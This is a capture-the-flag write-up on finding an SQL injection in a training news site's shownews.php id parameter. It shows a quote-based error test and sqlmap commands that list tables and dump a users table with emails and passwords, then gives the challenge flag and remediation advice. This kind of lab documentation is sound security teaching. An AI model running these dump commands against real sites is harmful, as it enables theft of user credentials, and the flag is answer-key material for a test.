 # Who is admin

## Description:

Welcome to our news portal. Browse the latest articles. We have a team of authors and editors, but only one is the administrator. Can you find out who the admin is?

## Initial Analysis

### Functionality Description
The website is a simple news site. The main page displays a list of articles. Clicking on an article redirects the user to `shownews.php` for detailed content.

### Identifying Anomalies
The URL for a detailed article has the format `.../shownews.php?id=[number]`. The presence of an `id` parameter passed directly in the URL to query data is a strong indicator of an SQL Injection vulnerability.

### Vulnerability Hypothesis
The website has an SQL Injection vulnerability in the `id` parameter of the `shownews.php` page.

## Exploitation Steps

1.  **Confirm the Vulnerability:** Navigate to any article, for example, `.../shownews.php?id=2`. Append a single quote (`'`) to the end of the URL: `.../shownews.php?id=2'`.
    The website returns an SQL error message, which confirms the vulnerability's existence 100%.
    ![image](https://github.com/user-attachments/assets/382751c0-7636-4ecb-b16b-c1b6a60d584f)

    

3.  **Use `sqlmap` to List Tables:** To save time, we use the automated tool `sqlmap`.
    **Command:**
    ```bash
    sqlmap -u "http://<URL>/shownews.php?id=2" --batch --tables
    ```
    **Result:** `sqlmap` identifies the backend as SQLite and lists the tables in the database. A notable table is `nxf8_users`.
    ![image](https://github.com/user-attachments/assets/c9e6d272-8c4c-4c10-bdb0-c423cb1c5611)


4.  **Dump Data from the `nxf8_users` Table:** Continue using `sqlmap` to extract all data from the discovered tables.
    **Command:**
    ```bash
    sqlmap -u "http://<URL>/shownews.php?id=2" --batch --dump
    ```
    **Result:** `sqlmap` dumps the entire content of the `nxf8_users` table, including `id`, `name`, `role`, `email`, and `password`.
    ![image](https://github.com/user-attachments/assets/2a82be01-e9b8-4fa8-a292-35c5e58e66b0)


5.  **Identify the Administrator:** By analyzing the dumped data, we find a user with the `role` of `admin`.
    ![image](https://github.com/user-attachments/assets/57fe2199-f000-410b-bbf6-a70a80bd6a2c)

    The admin's account information is now exposed. This fulfills the challenge's objective of finding "Who is admin."

    **Flag:** ee1410a7547bf270720b5159d777da934cb03751

## Impact
- **Very Severe:** An attacker can read the entire contents of the database, including sensitive information like usernames, emails, and passwords (even if hashed) for all users.
- This can lead to an administrator account takeover, modification of website content, or data theft.

## Remediation
- **Use Prepared Statements (Parameterized Queries):** This is the most effective method. Input from the `id` parameter will be treated as data, not as an executable SQL command.
- **Use an ORM (Object-Relational Mapping):** Modern ORM libraries typically have built-in protection against SQL Injection.
- **Input Validation:** Always validate that the `id` parameter is a valid integer before using it.
- **Hide Detailed Error Messages:** Do not display SQL errors to end-users.
